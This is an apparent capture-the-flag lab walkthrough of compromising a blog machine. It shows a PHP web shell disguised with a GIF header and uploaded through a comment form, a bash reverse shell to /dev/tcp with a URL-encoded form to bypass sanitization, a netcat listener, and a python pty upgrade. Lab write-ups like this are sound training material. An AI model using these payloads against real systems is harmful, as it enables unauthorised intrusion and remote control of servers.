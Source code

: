 in `/etc/hosts` list add `<ip>   blogger.thm`

- In the post comment section there is a file upload vuln founded, we can upload a PHP file with the GIF format, like
```php
GIF89a
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
```
- save the file and upload in php format itself so we can open it and execute the commands and visualize in another page.
- after uploading right click on the php file and open in new tab and in the URL use `?cmd= <commands>`

## Spwning a shell

```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```

- Even though we can't excecute it directly because the URL sanitization is happening , so insert the command as URL encoded.
`bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.51%2F9090%200%3E%261%27`

- Use a netcat listener `nc -nvlp 9090` at the host machine and then paste the URL encoded command in the `?cmd= <command>`

## user flag enumeration 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/94ccc6d9-9ff2-4d90-ac0c-4ee9310494ba)

## Root - Privilage Escalation

- For enabling tty - interactive shell , we have the python3 available in the victim machine.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/8c27806a-58d0-46a8-9656-eaf30ba952c9)

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/174df7a3-578b-446b-a97b-4371bd0e0ccf)
